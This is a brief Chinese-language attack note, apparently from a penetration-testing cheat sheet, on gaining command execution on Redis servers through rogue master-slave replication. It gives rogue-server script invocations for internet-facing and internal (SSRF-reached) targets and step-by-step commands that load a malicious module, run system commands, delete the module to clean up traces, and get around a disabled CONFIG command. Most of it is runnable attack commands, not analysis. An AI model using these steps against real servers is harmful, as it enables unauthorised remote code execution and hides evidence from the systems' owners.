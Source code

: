 ## Redis主从复制

编译so文件 https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

将.so与 `redis-rogue-server.py`放置在同一目录下

### 主动连接模式

适用于目标Redis服务处于外网的情况

- 外网Redis未授权访问
- 已知外网Redis口令

启动redis server

```bash
python3 redis-rogue-server.py --server-only
```

主动连接发起攻击

```bash
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

### 被动连接模式

适用于目标Redis服务处于内网的情况

- 通过SSRF攻击Redis
- 内网Redis未授权访问/已知Redis口令, Redis需要反向连接redis rogue server

启动redis server

```bash
python3 redis-rogue-server.py --server-only
```

或者通过 `rogue-server.py`启动恶意服务

也可以使用脚本 `gopher_redis.py`

之后手工备份

```
1.config set dir ./
2.config set dbfilename exp.so
3.slaveof X.X.X.195
4.slaveof X.X.X.195 21000  #上面看绑定的服务段端口是21000
5. module load ./exp.so
6.slaveof no one
7.system.exec 'whoami'

清理痕迹
8.config set dbfilename dump.rdb
9.system.exec 'rm ./exp.so'
10.module unload system
```

## bypass

如果config命令被禁用了

```bash
rename-command CONFIG ""
```

同步之后 exp.so直接成了dump.rdb

直接module load dump.rdb就可以加载了

